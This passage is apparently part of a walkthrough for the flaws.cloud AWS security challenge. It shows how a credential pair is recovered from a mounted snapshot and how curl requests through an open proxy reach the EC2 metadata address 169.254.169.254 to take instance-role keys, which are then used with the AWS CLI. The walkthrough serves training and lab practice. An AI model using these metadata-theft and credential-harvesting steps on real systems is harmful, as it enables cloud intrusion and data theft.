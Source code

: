 *  Create an ec2 instance in the `us-west-2` region 
*  Attach the snapshot as an extra volume
*  Connect to the ec2 instance using `ssh` with the keypair while setting up the ec2
	```
	ssh -i "flaws4.pem" ubuntu@ec2-35-85-61-84.us-west-2.compute.amazonaws.com
	```
* Mount the volume
	* `sudo file -s /dev/xvdf1`
	* `sudo mount /dev/xvdf1 /mnt`
* Look around in the snapshot
	* We get credentials in `/home/ubuntu/setupNginx.sh`
		* `flaws:nCP8xigdjpjyiXgJ7nJu7rw5Ro68iE8M`
* Enter the credentials [here](http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud)
* Terminate the EC2 instance

<br/>

## Level 5
> [URL](http://level5-d2891f604d2061b6977c2481b0c8333e.flaws.cloud/243f422c/)

**Flaw: exposed proxy which doesn't restrict access to instance's meta-data server and private IP range**

**The IP address `169.254.169.254` is a **magic IP** in the cloud world. AWS, Azure, Google, DigitalOcean and others use this to allow cloud resources to find out metadata about themselves.** 

**Each EC2 instance has metadata available on a magic private (only itself can access) IP address `169.254.169.254`. The juiciest part of this metadata, are the credentials for the Instance Profile (if one is set), which can be retrieved through a web request to http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance/.**

* Get the meta-data listing
	```
	curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/
	```
* We get credentials at this [url](http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance) 
	```
	curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance
	```
* Configure using the keys
	```
	aws configure --profile flaws-l5```
* Add the Access Key ID, Secret Access key and **Session token** to `/.aws/credentials`
* List the contents of the level6 bucket
	```
	aws s3 ls s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud --profile flaws-l5
	```
<br/>

## Level 6
> [URL](http://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/)
